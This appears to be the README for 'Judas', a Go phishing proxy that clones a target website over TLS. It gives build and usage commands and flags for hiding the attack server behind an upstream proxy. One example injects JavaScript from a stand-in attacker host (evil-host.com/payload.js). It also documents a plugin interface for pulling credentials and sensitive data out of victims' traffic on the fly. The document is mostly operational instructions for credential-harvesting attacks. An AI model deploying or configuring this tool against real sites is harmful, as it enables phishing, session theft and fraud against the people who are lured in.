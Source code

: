 Judas
=====
Judas is a phishing proxy.
It can clone a website passed to it using command line flags.

Building
--------
To build `judas`, simply run `go build`.
 ```
 go build -o judas cmd/judas.go
 ```


Usage
-----
The target ```--target``` flag is required.
`judas` will use Let's Encrypt to automatically create SSL certificates for website.
If you want to listen using HTTP, pass the ```--insecure``` flag.
If you want to accept self-signed SSL certificate from target host, pass the ```--insecure-target``` flag.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key
```

```
./judas --target https://target-url.com --insecure
```

```
./judas --target https://target-url-with-self-signed-cert.com --insecure-target
```


It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.

Example:
```
./judas --target https://torwebsite.onion --cert server.crt --private-key server.key --proxy socks5://localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --inject-js https://evil-host.com/payload.js
```

Plugins
-------
Judas can be extended using [Go plugins](https://golang.org/pkg/plugin/). 
An `judas` plugin is a regular Go plugin with a function called `New` that implements `judas.InitializerFunc`.
You can use plugins to save request-response transactions to disk for further analysis, or pull credentials and sensitive information out of requests and responses on the fly.
You should configure your plugins using [environment variables](https://golang.org/pkg/os/#Getenv).

```
// InitializerFunc is a go function that should be exported by a function package.
// It should be named "New".
// Your InitializerFunc should return an instance of your Plugin with a reference to judas's logger for consistent logging.
type InitializerFunc func(*log.Logger) (Plugin, error)
```

The `judas.Plugin` interface has one method: `Listen`.

```
// Plugin must be implemented by a plugin to users to hook the request - response transaction.
// The Listen method will be run in its own goroutine, so plugins cannot block the rest of the program, however panics can take down the entire process.
type Plugin interface {
	Listen(results <-chan *Result)
}
```

`Listen` implementations will receive a stream of  `judas.HTTPExchange`.
These contain the `judas.Request`, the payload and the `judas.Response`, along with the target.

```
// HTTPExchange contains the request sent by the user to us and the response received from the target server.
// Plugins can use this struct to pull information out of requests and responses.
type HTTPExchange struct {
	Request  *Request
	Response *Response
	Target   *url.URL
}
```

You can put compiled plugins in a directory and pass them with the `--plugins` flag.
Plugins are colon separated file paths.

```
judas \
     --target https://www.google.com \
     --insecure \
     --address localhost:9000 \
     --proxy http://localhost:8080 \
     --insecure-target
     --plugin ./searchloggingplugin.so:./linksloggingplugin.so
```

See [examples/searchloggingplugin/searchloggingplugin.go](https://github.com/JonCooperWorks/judas/tree/master/examples/searchloggingplugin/searchloggingplugin.go)

You can build a plugin using this command:
```
go build -buildmode=plugin path/to/plugin.go
```